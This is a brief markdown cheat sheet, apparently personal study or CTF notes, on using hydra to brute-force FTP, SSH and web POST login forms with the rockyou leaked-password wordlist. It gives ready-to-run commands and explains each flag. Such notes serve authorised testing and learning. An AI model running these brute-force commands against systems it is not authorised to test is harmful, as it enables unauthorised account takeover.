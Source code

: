 # Notes and example commands in hydra

[Hydra docs from kali](https://en.kali.tools/?p=220)

## FTP cracking

- `hydra -l <userlist> -P <passlist> ftp://<ip>`
  - `-l` is for login. For selecting creds for username field. Could pass path to a list of usernames.
  - `-P` is for password. For selecting creds for password field. could pass path to a list of passwords.

## SSH cracking

- `hydra -l <userlist> -P <passlist> <ip> -t <numberOfThreads> ssh`
  - `-l` for login/username
  - `-P` for password
  - `-t` for specifying number of threads to be used
  - `ssh` for specifying crack type

**Examples:**

- `hydra -l molly -P /Passwords/Leaked-Databases/rockyou.txt $(cat ip) ssh -V`

## POST login form

- `hydra -l u -P w $(cat ip) http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`
  - `-l` for login/username
  - `-P` for password
  - `http-post-form` for form type
  - `username=^USER^` usernames from wordlist will be replaced by `^USER^`
  - `password=^PASS^` passwords from wordlist will be replaced by `^PASS^`
  - `F=incorrect` if `incorrect` appears in the output, it's a failed login attempt.

**Examples:**

- `hydra -l /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt $(cat ip) http-post-form "/login.php:username=^USER^&password=^PASS^:F=invalid" -V`

## Wordlist locations to copy

`/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

## FTP hacking

- `hydra -l chris -P ../../wordlists/rockyou.txt ftp://$(cat ip) -V`

